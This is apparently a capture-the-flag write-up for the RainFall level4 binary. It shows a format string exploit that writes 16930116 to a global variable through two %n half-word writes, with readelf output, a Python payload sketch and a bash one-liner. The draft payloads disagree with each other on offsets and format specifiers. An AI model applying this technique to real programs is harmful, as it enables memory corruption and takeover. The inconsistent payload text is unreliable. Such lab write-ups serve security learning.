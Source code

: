 We see that we have a format string exploit that is vulnerable

However, the value to write to m, the global variable, is `16930116`. This is way bigger than the size of our buffer

Also, printf is called in a function p, which is another scope than where your buffer is located

First let's get the address of m

```console
level4@RainFall:~$ readelf -s level4 | grep m
66: 08049810     4 OBJECT  GLOBAL DEFAULT   25 m
```

Address of m: `0x08049810` = `\x10\x98\x04\x08`
Address of m + 2: `0x08049810 + 2` = `0x08049812` = `\x12\x98\x04\x08`

## How to write `16930116` at m ??

value to write in m: `16930116` = `0x01025544`

Lets do 2 writes!

value 1: `0x0000 5544` = `21828` at `m`
value 2: `0x0001 0102` = `258` at `m + 2`

YYYY YYY1 | 0102 5544 | ZZZZ ZZZZ


`%VALUEd$`: put nb of paddings (whitespace) equal to VALUE

```python
exploit = ""
exploit += "\x10\x98\x04\x08"	//cible 1
exploit += "\x12\x98\x04\x08"	//cible 2
exploit += "%?$21820x"			//padding to get to value 1 (21828 - 8 = 21820)
exploit += "%?$n"				//write cible 1
exploit += "%?$43966x"			//paddding to get to value 2 (65794 - 21820 - 8 = 43966)
exploit += "%? + 1 $n"			//write cible2
```


```bash
(python -c 'print ("\x10\x98\x04\x08" + "\x12\x98\x04\x08" + "%12$n" + "%12$21820x" + "%12$n" + "%12$43966x" + "%13$n")'; cat) | ./level4
```

\x10\x98\x04\x08%10$n
